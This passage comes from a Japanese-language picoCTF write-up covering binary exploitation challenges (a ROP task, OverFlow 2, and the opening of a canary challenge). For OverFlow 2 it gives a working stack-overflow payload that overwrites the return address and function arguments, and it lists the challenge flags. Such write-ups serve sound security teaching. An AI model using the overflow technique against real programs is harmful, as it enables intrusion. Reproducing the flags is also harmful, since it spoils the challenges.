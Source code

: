 Attachment:

- vuln (ELF 64-bit)
- vuln.c

<br />
### Solution
たぶん問題が間違っている気がします。win_fn1()とかいくつか関数が追加されているものの、flag()が残っているので、NewOverFlow-1と全く同じで解けます。


Flag: `picoCTF{r0p_1t_d0nT_st0p_1t_e51a1ea0}`




<br /><br />
<br /><br />
## [Binary Exploitation]: OverFlow 2 (250 points)
- - -
### Challenge
> Now try overwriting arguments. Can you get the flag from this program?
<br /><br />
Hint: GDB can print the stack after you send arguments

Attachment:

- vuln (ELF 32-bit)
- vuln.c

<br />
### Solution
これはpicoCTF 2018のbof2とほぼ同じです。

<pre>
$ (python -c 'print("A"*188+"\xe6\x85\x04\x08"+"BBBB"+"\xEF\xBE\xAD\xDE"+"\x0D\xD0\xDE\xC0")'; cat -) | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBﾭ?
picoCTF{arg5_and_r3turn55897b905}
</pre>

Flag: `picoCTF{arg5_and_r3turn55897b905}`




<br /><br />
<br /><br />
## [Binary Exploitation]: CanaRy (300 points)
- - -
### Challenge
> This time we added a canary to detect buffer overflows. Can you still find a way to retreive the flag from this program located in /problems/canary_0_2aa953036679658ee5e0cc3e373aa8e0.
<br /><br />
Hint: Maybe there's a smart way to brute-force the canary?
